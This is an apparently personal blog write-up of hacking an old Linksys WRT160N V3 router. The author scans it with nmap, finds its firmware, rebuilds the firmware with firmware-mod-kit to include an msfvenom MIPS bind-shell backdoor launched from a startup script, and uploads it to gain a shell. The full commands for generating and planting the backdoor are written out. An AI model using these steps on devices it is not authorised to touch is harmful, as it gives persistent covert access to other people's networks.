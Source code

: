 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides that he needs to learn some embedded, or hardware-related cyber.
For me, it was a friend of mine who told me he had found an old router laying around.
I knew it was time.
![linksys_router](https://user-images.githubusercontent.com/53023744/196064650-137f185d-7708-45a7-8b88-ed1d16f43112.jpg)


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


# Attack Surface
### **NMAP**
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researhing about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


### **Web Server**
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execve().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


# Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


# Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the article Elon wrote, I tried to reverse the binary and search for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() to see if there's any unsanitized user input being used in important places.


# Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

### **msfvenom**
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor

cp bs_backdoor /fmk/rootfs/bin
chmod 777 /fmk/rootfs/bin/bs_backdoor
```

But wait!
What would make our binary run at all?
Well, bash scripts :)

In many routers, there are a some scripts that run on startup, or on some particular occasion.
We can search for such scripts like so:

```
find fmk/rootfs -name "*.sh*"
Output:
fmk/rootfs/usr/sbin/rotatelog.sh
```

We can modify the script and run our binary from there!
![image](https://user-images.githubusercontent.com/53023744/196065187-621f4102-1e10-439c-a418-1cf30a08ea7f.png)


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)


Finally, I ran the `./build-firmware.sh` command and got a new firmware.
Let's upload it :)




# Victory
I went onto the firmware upgrade page, and uploaded the firmware:

![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw that the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different (hehe):

![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)


I quickly fired up Metasploit's listener and got a connection:

![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)


I have a bind shell running on the router!
TBH, It was really fun.
